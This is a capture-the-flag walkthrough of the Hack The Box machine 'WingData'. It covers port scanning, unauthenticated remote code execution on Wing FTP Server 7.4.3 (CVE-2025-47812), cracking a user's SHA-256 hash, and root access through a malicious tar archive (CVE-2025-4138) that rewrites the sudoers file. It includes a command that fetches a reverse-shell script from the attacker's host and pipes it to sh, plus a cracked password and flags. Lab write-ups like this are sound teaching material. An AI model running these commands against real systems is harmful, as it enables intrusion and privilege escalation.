








## TL;DR

In this challenge we start with `RCE` using known exploit on the wing ftp server located at `ftp.wingdata.htb`.
Then, we move to user `wacky` using hash we found and crack.

Lastly, we move to root using sudo on some backup script, and exploit of malicious tar exhilaration.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                            
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)                                                      
| ssh-hostkey:                                                                                                                         
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)                                                                        
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL+8LZAmzRfTy+4t8PJxEvRWhPho8aZj9ImxRfWn9TKepkxh8pAF3WDu55pd/
gaSUGIo9cuOvv+3r6w7IuCpqI4=                                                                                                            
|   256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)                                                                      
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFFmcxflCAAe4LPgkg7hOxJen41bu6zaE/y08UnA4oRp
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.66                                                                                
|_http-title: WingData Solutions                                   
|_http-server-header: Apache/2.4.66 (Debian)                                                                                           
| http-methods:                                                    
|_  Supported Methods: POST OPTIONS HEAD GET                                                                                           
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `wingdata.htb` to my `/etc/hosts`

### RCE via known exploit on wing ftp server

I visited main page, we can see there is some subdomain: `ftp.wingdata.htb`, we'll add it to our `/etc/hosts`



Let's visit this subdomain `ftp.wingdata.htb`, we can see the version `Wing FTP Server v7.4.3`.



I googled and found this exploit [https://www.exploit-db.com/exploits/52347](https://www.exploit-db.com/exploits/52347), let's use it:

```bash
┌──(agonen㉿kali)-[~/htb/WingData]
└─$ searchsploit -m multiple/remote/52347.py
  Exploit: Wing FTP Server 7.4.3 - Unauthenticated Remote Code Execution  (RCE)
      URL: https://www.exploit-db.com/exploits/52347
     Path: /usr/share/exploitdb/exploits/multiple/remote/52347.py
    Codes: CVE-2025-47812
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/agonen/htb/WingData/52347.py
```

And here we exploit (of course you need to setup the python listener with teh payload of penelope):
```bash
python3 /home/agonen/htb/WingData/52347.py -u 'http://ftp.wingdata.htb/' -c 'curl http://10.10.14.207:8081/rev_shell.sh|sh'
```

here we got the reverse shell.



### Move to user wacky using hash cracked 

I navigated around, and found out there is another user called `wacky`. I managed to find its hash:



```bash
wingftp@wingdata:/opt/wftpserver$ cat Data/1/users/wacky.xml | grep '<Password>'
        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
``` 

I put it inside `hash.txt` and used hashcat to crack this hash. I found the type which is SHA-256 both by googling and use `hash-identifier`:
```bash
hashcat hash.txt -m 1400 /usr/share/wordlists/rockyou.txt
```

Then, I found the password `!#7Blushing^*Bride5`:



and the user flag:
```bash
wacky@wingdata:~$ cat user.txt 
1b75bc448fb65b8769ca25f1538959de
```

### Privilege Escalation to Root using tar extraction of malicious tar archive

Next, I checked for sudo permissions:
```bash
wacky@wingdata:~$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

I read the script `/opt/backup_clients/restore_backup_clients.py`, and found the main functionality:
```py
try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
```

I googled and found some exploit for the vulnerability of `tar` and extracting, here [https://github.com/kyakei/CVE-2025-4138-poc](https://github.com/kyakei/CVE-2025-4138-poc).

Basically, we create some file on the malicious tar, that when extracted, it will override `/etc/sudoers.d/wacky`, and gives us sudo permissions to all of the system, without password.

First, create the malicious tar:
```bash
python3 CVE-2025-4138-poc.py -o /opt/backup_clients/backups/backup_1001.tar -u wacky
```



Then, trigger the extraction:
```bash
wacky@wingdata:~$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_john
[+] Backup: backup_1001.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_john
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_john
```

Now, we can check for sudo permissions:
```bash
wacky@wingdata:~$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
    (ALL) NOPASSWD: ALL
```

We can simply change to root using `sudo su`, and grab the root flag:


and the root flag:
```bash
root@wingdata:/home/wacky# cat /root/root.txt 
1ea8c499d0a07d9e19dab96f0a1d7837
```

